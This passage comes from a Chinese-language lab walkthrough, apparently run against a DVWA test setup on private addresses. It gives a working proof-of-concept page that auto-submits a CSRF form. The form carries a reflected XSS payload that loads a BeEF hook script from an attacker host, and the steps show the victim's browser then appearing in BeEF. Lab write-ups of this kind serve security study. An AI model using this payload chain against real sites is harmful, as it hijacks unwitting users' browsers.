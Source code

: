修改之后的poc

```
<html>
<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "54" );
function pausecomp(millis){
    var date = new Date();
    var curDate = null;
    do { curDate = new Date(); }
    while(curDate-date < millis);}
function fireForms(){
    var count = 1;
    var i=0;
    for(i=0; i<count; i++){
    	document.forms[i].submit(); 
        pausecomp(pauses[i]);}}   
</script>
<form method="GET" name="form0" action="http://192.168.38.132:80/dvwa/vulnerabilities/xss_r/?name=<script src='http://192.168.38.129:3000/hook.js'></script>">
<input type="hidden" name="name" value="<script src='http://192.168.38.129:3000/hook.js'></script>"/> 
</form>
</body>
</html>
```

将上面代码放到本地 Web 服务中，打开其他浏览器，登陆其他账户，再打开我们构造的 CSRF 链接。

```
http://192.168.38.1/csrf.html
```

### 2.beef上线

打开链接后，beef 中就能看到上线的主机了。

![image-20230513231503640](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230513231503640.png)

这个组合打法是需要诱导受害者点击构造的 CSRF 链接的，利用难度要高于第一个组合
